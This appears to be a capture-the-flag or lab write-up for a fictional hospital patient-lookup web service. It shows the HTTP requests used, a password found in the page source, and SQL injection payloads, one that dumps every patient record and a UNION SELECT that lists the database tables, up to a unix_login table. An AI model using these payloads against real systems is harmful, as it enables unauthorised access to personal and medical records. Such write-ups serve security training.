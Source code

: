 # 10.13.37.4, Port 80


## Website

![Screenshot of 10.13.37.4:80](content/images/machine_4_port_80_website.png)


## Initial discovery

Searching sends a GET request similar to this.

	GET /?patientID=00000&password=
	Host: 10.13.37.4

We get a response stating that we are not authorized.


## Initial discovery

If we use the password found in the source of the HTML file we get information back about the patient.

	GET /?patientID=48898&password=mTvkHrQdaPHLp477
	Host: 10.13.37.4


## Getting More

The patientID field is SQL injectable.

By doing some basic SQL injection we can dump all the patients information
	
	' OR '1' = '1'--

And we find an interesting entry:

	{
		"id": "zzzzzzzzzz",
		"name": "Dan Holmes",
		"street": "TmSZSqLC9pk9cn25",
		"email": "dan@ecoasthospital.com"
	}


## Even More

Let's dump all the tables

	' UNION SELECT TABLE_NAME, COLUMN_NAME, DATA_TYPE, '_' FROM INFORMATION_SCHEMA.COLUMNS--

And we find a particularly juicy one

	{
		"id": "unix_login",
		"name": "username",
		"street": "character varying",
		"email": "_"
	},
